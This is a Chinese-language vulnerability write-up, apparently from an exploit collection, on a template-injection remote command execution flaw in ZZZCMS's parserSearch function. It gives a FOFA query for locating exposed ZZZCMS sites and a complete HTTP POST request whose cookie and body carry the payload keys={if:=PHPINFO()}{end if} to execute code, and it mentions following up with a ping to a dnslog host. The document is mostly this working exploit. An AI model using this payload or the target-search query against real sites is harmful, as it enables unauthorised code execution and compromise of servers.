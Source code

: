 # ZZZCMS parserSearch 远程命令执行漏洞

## 漏洞描述

ZZZCMS parserSearch 存在模板注入导致远程命令执行漏洞

## 漏洞影响 

<a-checkbox checked>ZZZCMS</a-checkbox></br>	

## FOFA

<a-checkbox checked>app="zzzcms"</a-checkbox></br>

## 漏洞复现

发送如下请求包命令执行



![img](../../../.vuepress/public/img/zzz-1.png)



```plain
POST /?location=search HTTP/1.1
Host: 
Content-Length: 30
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Type: text/plain
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=rbuhrqqhoctntnak8slkascqp1; keys=%7Bif%3A%3DPHPINFO%28%29%7D%7Bend+if%7D%0D%0A


keys={if:=PHPINFO()}{end if}
```



执行 ping dnslog



![img](../../../.vuepress/public/img/zzz-2.png)